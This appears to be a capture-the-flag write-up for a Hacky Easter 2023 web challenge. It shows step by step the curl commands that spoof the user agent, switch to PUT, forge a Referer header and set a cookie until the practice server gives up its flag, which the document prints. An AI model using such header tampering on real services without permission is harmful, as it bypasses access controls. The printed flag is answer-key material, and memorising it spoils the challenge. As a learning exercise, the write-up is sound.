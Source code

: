 The Hamster has a flag for you.

[http://ch.hackyeaster.com:2301](http://ch.hackyeaster.com:2301/)

curl -X GET http://ch.hackyeaster.com:2301/feed
🕴️ only hamster-agent is allowed

Sounds like we need to change the user agent to get it to work.

curl -X GET -A "hamster-agent" http://ch.hackyeaster.com:2301/feed
⛳ GET invalid

curl -X PUT -A "hamster-agent" http://ch.hackyeaster.com:2301/feed
🛑 request must come from hackyhamster.org

curl -X PUT -A "hamster-agent" -H 'Referer: hackyhamster.org' http://ch.hackyeaster.com:2301/feed                                
🍪 brownie not found

curl -X PUT -A "hamster-agent" -H 'Referer: hackyhamster.org' -H 'Cookie: brownie=baked' http://ch.hackyeaster.com:2301/feed 
🚩 he2023{s1mpl3_h34d3r_t4mp3r1ng}